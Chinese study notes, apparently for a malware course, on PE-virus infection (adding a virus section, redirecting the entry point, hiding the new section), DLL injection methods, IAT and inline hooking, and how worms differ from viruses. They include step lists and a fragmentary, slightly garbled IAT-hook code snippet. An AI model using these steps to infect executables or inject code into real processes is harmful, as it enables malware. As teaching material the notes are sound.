> ==**简述 PE 文件型病毒中病毒代码节表参数的计算过程。**==
>
> 写⼊节名 → 写⼊节的实际字节数 → 写⼊新节在内存中的开始偏移地址（本节在内存中的开始偏移地址 = 上节在内存中的开始偏移地址 + （上节⼤⼩ / 节对齐 + 1） * 节对齐）→ 写⼊本节在⽂件中对齐后的⼤⼩ → 写⼊本节在⽂件中的开始位置 → 修改映像⽂件头中的节表数⽬ → 修改 AddressOfEntryPoint，同时保存旧的 AddressOfEntryPoint，以便返回 HOST 继续执⾏ → 更新 SizeOfImage（内存中整个映像尺⼨ = 原 SizeOfImage + 病毒节经过内存节对齐后的⼤⼩）→ 写⼊感染标记 → 写病毒代码到新添加的节中 → 将当前⽂件位置设为⽂件尾。

> [!NOTE]
>
> ==**简述 PE 文件基本的节表免疫和节间免疫方法。**==
>
> 节表免疫：让感染后的 PE 文件在结构上看起来没有新增节表项，从而掩盖感染行为。把节表下移到第一个节段前面，然后修改 optionalHeader 的大小，大小为原来的大小加上节表项偏移的大小。
>
> 节间免疫：让 PE 文件中不同节之间的间隙“看起来”为零，防止分析者在节之间发现插入的隐藏代码。即将每个节表的 virtualSize 修改为文件对齐大小。

# 木马病毒

## DLL 注入

注⼊⽅法

- 修改注册表来注⼊ dll；
- 使⽤ CreateRemoteThread 函数对运⾏中的进程注⼊ dll；
- 使⽤ SetWindowsHookEx 函数对应⽤程序挂钩(HOOK)迫使程序加载 dll；
-  替换应⽤程序⼀定会使⽤的 dll；
- 把 dll 作为调试器来注⼊；
- ⽤ CreateProcess 对⼦进程注⼊ dll；
- 修改被注⼊进程的 exe 的导⼊地址表；

## 使⽤ CreateRemoteThread 函数

CreateRemoteThread 在⽬标进程中创建⼀个线程并在线程中执⾏ LoadLibrary 函数加载我们要注⼊的dll。 

如何调⽤让创建的线程执⾏ LoadLibrary 函数来加载我们要注⼊的 dll？只需要<u>创建的线程的线程函数地址是 LoadLibrary 函数的起始地址即可</u>。

## ⽤ CreateProcess 对⼦进程注⼊ dll

通过创建“挂起”状态的新进程，修改其内存和执行流程，把自己设计的 DLL 或 Shellcode 注入进去，等一切准备好后再恢复运行。

## 使⽤ SetWindowsHookEx 函数

SetWindowsHookEx 可以让你“挂钩”到某个线程或系统的消息流程中，在消息到达目标窗口或控件之前**先被你的钩子函数拦截处理**。

钩⼦函数应当放在⼀个 dll 中，并且在你的进程中 LoadLibrary 这个 dll。然后再调⽤ SetWindowsHookEx 函数对相应类型的消息安装钩⼦。

## IAT Hook

IAT Hook 就是修改目标程序的导入地址表（IAT），把原本指向系统函数的地址改成自己的函数地址，从而劫持函数调用。

IAT Hook 的基本步骤

1. **获取目标模块的 IAT 表地址**
   - 读取目标进程（或当前进程）内存中 IAT 的位置，找到目标函数（如 `MessageBoxA`）的条目。
2. **修改 IAT 表**
   - 将该条目（函数地址）修改为我们自己的函数地址。
3. **实现钩子函数**
   - 自定义一个函数来替代原函数，可以记录日志、修改参数、阻止调用、执行原函数后处理结果等。

```cpp
for(; pImportDesc->Name; pImportDesc++)	// 遍历导入表
{
//szLibName =VA to IMAGE_IMPORT_DESCRIPTOR table
szLibName =(LPCSTR)((DORD)hMod +pImportDesc->Name);
if(!_stricmp(sLibName,szDlIName))
{
//pThunk =IMAGE_IMPORT_DESCRIPTOR.FirstThunk
// =VA to IAT(Import Address Table)
pThunk =(PIMAGE_THUNK_DATA)((DWORD)hMod +pImportDesc-
>FirstThunk)；
// pThunk->ul.Function= VA to API
for( ; pThunk->ul.Function; pThunk++)
{
if(pThunk->ul.Function==(DWORD) pfnOrg)
{
//更改内存属性为RWX
VirtualProtect((LPVOID)&pThunk-
>ul.Function,4,PAGE_EXECUTE_READWRITE, &dwOldProtect);
pThunk->ul.Function=(DWORD)pfnNew;	// 把函数地址改为自己写的钩子函数地址（pfnNew）
//恢复内存属性
VirtualProtect((LPVOID)&pThunk->ul.Function,4,dwOldProtect,
&dwOldProtect);
return true;
```


## Inline Hook

Inline Hook 就是直接修改函数开头几条指令，加一个跳转（jmp）指令到自己的函数。

流程

1. 构造跳转指令。
2. 在内存中找到欲 Hook 函数地址，并保存欲 Hook 位置处的前5字节。
3. 将构造的跳转指令写⼊需 Hook 的位置处。
4. 当被 Hook 位置被执⾏时会转到⾃⼰的流程执⾏。
5. 如果要执⾏原来的流程，那么取消 Hook，也就是还原被修改的字节。
6. 执⾏原来的流程。
7. 继续 Hook 住原来的位置。

## 简答

> [!NOTE]
>
> ==**简述通过 CreateRemoteThread 函数进行 Dll 注入的过程。**==
>
> 1. 使用 OpenProcess 获取目标进程的句柄。
>
> 2. ⽤ VirtualAllocEx 函数在⽬标进程的地址空间中分配⼀块⾜够⼤的内存⽤于保存被注⼊的 dll 的路径。
>
> 3. ⽤ WriteProcessMemory 函数把本进程中保存 dll 路径的内存中的数据拷贝到第 2 步得到的⽬标进程的内存中。
>
> 4. ⽤ GetProcAddress 函数获得 LoadLibraryW 函数的起始地址。LoadLibraryW 函数位于 Kernel32.dll 中。
>
> 5. ⽤ CreateRemoteThread 函数让⽬标进程执⾏ LoadLibraryW 来加载被注⼊的 dll。函数结束将返回载⼊ dll 后的模块句柄。
> 6. ⽤ VirtualFreeEx 释放第 2 步开辟的内存。
> 7. ⽤ GetProcAddress 函数获得 FreeLibrary 函数的起始地址。FreeLibrary 函数位于 Kernel32.dll 中。
> 8. ⽤ CreateRemoteThread 函数让⽬标进程执⾏ FreeLibrary 来卸载被注⼊的 dll。(其参数是第 5 步返回的模块句柄)。

> [!NOTE]
>
> ==**简述用 CreateProcess 对子进程注入 dll 的过程，并解释 ShellCode 的含义。**==
>
> 1. 创建⼀个挂起的⼦进程作为⽬标进程；
>
> 2. 准备⼀份预先设计好的 ShellCode；
>
> 3. ⽤ VirtualAllocEx 在⽬标进程中调拨⼀块可执⾏的内存；
>
> 4. 以分配的内存为基准修改 ShellCode 的汇编代码引⽤的地址和数据；
>
> 5. ⽤ WriteProcessMemory 函数将修改完毕的 ShellCode 复制⽬标进程在第 3 步分配的内存中；
>
> 6. 修改⽬标进程的主线程的 EIP 指向第 3 步分配的内存的⾸地址；
>
> 7. 恢复⽬标进程的主线程。
>
> ShellCode push DLL 路径地址，为 LoadLibraryA 准备参数，获取函数地址后加载 DLL，之后恢复正常执行，避免崩溃。

# 网络蠕虫

## 简答

> [!NOTE]
>
> ==**简述蠕虫与病毒的主要区别**==。
>
> 病毒必须依附于<u>宿主文件</u>（如可执行文件、文档宏等）才能运行和传播，它通过<u>感染其他文件、修改系统程序或插入自身代码</u>的方式扩散。病毒通常在用户打开被感染的文件时被激活，因此<u>传播依赖用户行为</u>，具有“寄生性”。
>
> 而蠕虫则是一种能够<u>自主复制并传播</u>的独立程序，<u>不依赖宿主文件</u>。它通常利用<u>网络漏洞或系统服务</u>进行传播，比如通过邮件、即时通信工具或开放端口在网络中扩散。蠕虫的<u>传播速度快、自动化程度高</u>，一旦入侵可迅速蔓延至整个局域网甚至互联网。

